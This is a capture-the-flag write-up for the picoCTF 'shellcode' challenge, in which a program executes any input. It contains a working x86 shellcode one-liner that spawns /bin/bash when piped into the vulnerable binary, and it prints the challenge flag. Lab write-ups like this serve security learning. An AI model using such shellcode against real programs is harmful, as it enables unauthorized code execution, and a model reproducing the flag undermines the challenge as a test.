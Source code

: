 # Problem
This program executes any input you give it. Can you get a shell?

# Solution
The name of the challenge was shellcode, so I know that I had to craft some shellcode or grab some online. The challenge gives us two links to download, after downloading them I saw that we had a runnable (vuln) and a .c file (vuln.c). The .c file wasn't super useful, but the runnable was, after running it I saw a seg fault and, like said in the challenge description, "will run any input". 

To solve you will just need to find some shellcode online that will open up a /bin/bash, once you hhave the shellcode just use python to 'print' it to the vuln file. You will notice you get some weird jibbrish back; this is where I got lost, you need to add 'cat' to the end of the python command, I can't really explain why.

( python -c "print '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'" ; cat ) | ./vuln


# Password 
picoCTF{shellc0de_w00h00_8b811b44}
